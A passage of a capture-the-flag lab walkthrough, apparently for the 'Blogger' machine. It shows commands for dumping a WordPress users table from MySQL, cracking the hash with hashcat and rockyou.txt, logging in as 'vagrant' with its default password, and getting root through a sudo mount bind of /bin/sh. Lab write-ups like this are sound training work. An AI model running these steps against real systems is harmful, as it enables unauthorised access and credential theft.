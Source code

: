 Then enter password and we're in:

```
SHOW DATABASES;
USE wordpress;
show tables;
SELECT * FROM wp_users;
```

As we can see there is a password hash for `j@m3s`. Putting that hash through [hashes.com](http://hashes.com), it shows it's a Wordpress MD5. Let's try it with `hashcat` and `rockyou.txt`:

```
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```

_<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ This didn't have any results. Linpeas has also found a user named `vagrant` on the remote machine. After google searching it, it seems to me that vagrant is a tool that helps with creating virtual machines. After watching one of the walkthroughs it became apparent that `vagrant` is a default password for user `vagrant` in most cases. 

```
su vagrant
```

Now that we're this new user we can check SUID binaries for this user:

```
find / -perm /4000 2>/dev/null
```

There are same binaries as before, but this time:

```
sudo -l
```

We have sudo permissions. Let's try `mount`:

```
sudo mount -o bind /bin/sh /bin/mount
sudo mount
```

And we have a root shell. Let's try not to lose it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let's see the `proof.txt`:

```
cat /root/proof.txt
```
